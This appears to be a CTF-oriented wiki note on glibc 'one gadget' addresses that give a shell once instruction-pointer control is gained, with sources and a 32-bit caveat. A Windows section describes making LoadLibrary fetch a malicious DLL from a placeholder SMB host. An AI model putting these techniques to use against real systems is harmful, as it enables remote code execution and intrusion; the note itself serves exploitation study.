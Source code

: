 # One Gadget (also "bespoke gadget")

_First time heard about this in a [video of Murmus](https://www.youtube.com/watch?v=kEqOvWmzu6Y)._

Sometimes you can get control over EIP/RIP but you don't control the argument passed to the function you're calling. This is for example the case when you overwrite a .got.plt entry or you can overwrite some function pointer on the stack but you don't control the arguments passed to that function. DragonSector discovered that there are some addresses in glibc that you can call without explicitely having to prep a "/bin/sh" string that will give you a shell (so exec*() is called).

There might be other conditions required to be able to get a shell (certain value on the stack to be NULL/0x00000000, ...) apart from the basic conditions:
* You need to know the libc base address (otherwise you can't call your function, right?)
* You need to know which version of libc (hopefully they gave you a libc binary with your challenge)
* You get stdout output.

David942j also discusses the problems with one-gadgets for 32-bit systems. Since x86 uses the stack for function parameters and not registers like x64 it is more difficult to find the constraints for a 32-bit rop gadget (one_gadget uses symbolic execution to resolve constraints). Accessing the data segment in x64 is done by rip+offset which is very straightforward. Accessing the data segment in x86 is done by using 'a' register as base address to the rw-p segment of libc in memory. Sadly, some registers are callee safe (their value is saved (pushed) on the stack and popped back by the callee) which makes it impossible (not sure if hard to do or impossible) to use. Luckily, esi is not callee save and you can write the base address of the rw-p segment in it before calling the one-gadget. It of course limits the number of usable one-gadgets because you can only use those that use an non-callee-safe register.

* Source: [dragons_ctf.pdf](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf)
* Source: [Project One Gadget in glibc](https://david942j.blogspot.be/2017/02/project-one-gadget-in-glibc.html)
* Source: [One gadget in Ubuntu 16.04](https://kimiyuki.net/blog/2016/09/16/one-gadget-rce-ubuntu-1604/)

## Gadgets

A premade list: [https://kimiyuki.net/blog/2016/09/16/one-gadget-rce-ubuntu-1604/](https://kimiyuki.net/blog/2016/09/16/one-gadget-rce-ubuntu-1604/)

Run [one_gadget](https://github.com/david942j/one_gadget) on your libc.

### Windows One Gadget

system() on Windows is implemented in MSVCRT.dll. However, this DLL is not always loaded. If it is loaded then you can get your one gadget if it's not loaded you can abuse LoadLibrary("\\\\x.x.x.x\yourSpecialDll.dll") to fetch a DLL over SMB. You just need to setup an open remote SMB server that serves your mallicious DLL. In the DLL put your code in DllMain that is automatically called when loading a DLL.

* Source: [dragons_ctf.pdf](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf)
